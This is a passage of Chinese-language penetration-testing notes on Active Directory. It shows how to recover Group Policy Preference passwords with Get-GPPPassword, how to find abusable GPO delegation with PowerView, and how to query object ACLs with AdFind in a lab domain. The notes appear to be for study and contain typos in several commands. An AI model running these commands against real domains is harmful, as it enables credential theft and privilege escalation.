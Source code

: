 `Groups.xml` ，详情见 htb 靶机 `Active.md`

可以使用 PowerSploit 中的 Get-GPPPassword.ps1 破解

```
Import-Moudel .\Get-GPPPassword.ps1
Get-GPPPassword
```



2、滥用组策略委派属性

如果赋予了 hack 普通域用户编辑、修改、删除 组策略 test 的权限，hack 便可以对 test 组策略进行修改

PowerView.ps1 可以查询

```powershell
Import-Module .\PowerView.ps1
Invoke-ACLScanner -ResolveGUIDs -ADSpath "CN=Policies,CN=System,DC=xiaodi,DC=local" -verbose
```

```powershell
Get-NetOU -GUID xxxxxxxxxxxxxxxxxxxxx
```



3、利用组策略创建定时任务



## 域内访问控制列表

简称 ACL 



1、查询指定对象的 ACL ，+ 号是使结果更容易读

```powershell
Adfind.exe -b "CN=dbadmin,CN=Users,DC=xiaodi,DC=local" nTSecurityDescriptor -sddl
Adfind.exe -b "CN=dbadmin,CN=Users,DC=xiaodi,DC=local" nTSecurityDescriptor -sddl+
Adfind.exe -b "CN=dbadmin,CN=Users,DC=xiaodi,DC=local" nTSecurityDescriptor -sddl++
Adfind.exe -b "CN=dbadmin,CN=Users,DC=xiaodi,DC=local" nTSecurityDescriptor -sddl+++
```



2、查询指定对象在域内的ACL

```powershell
#根据对象的SID值查询
Adfind.exe -s substree -b "DC=xiaodi,DC=local" nTSecurityDescriptor -sddl -sddlfilter ;;;;;"XXXXXXXXXXXX" -recmute
#根据对象用户名查询
Adfind.exe -s substree -b "DC=xiaodi,DC=local" nTSecurityDescriptor -sddl -sddlfilter ;;;;;"XXXXXXXXXXXX" -recmute
Adfind.exe -s substree -b "DC=xiaodi,DC=local" nTSecurityDescriptor -sddl+++ -sddlfilter ;;;;;"xiaodi\dbadmin" -recmute
```



3、查询指定权限在域内被哪些对象拥有



.......



还可以利用 PowerView 脚本查询和修改 ACL

[PowerView/SharpView - HackTricks](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview)



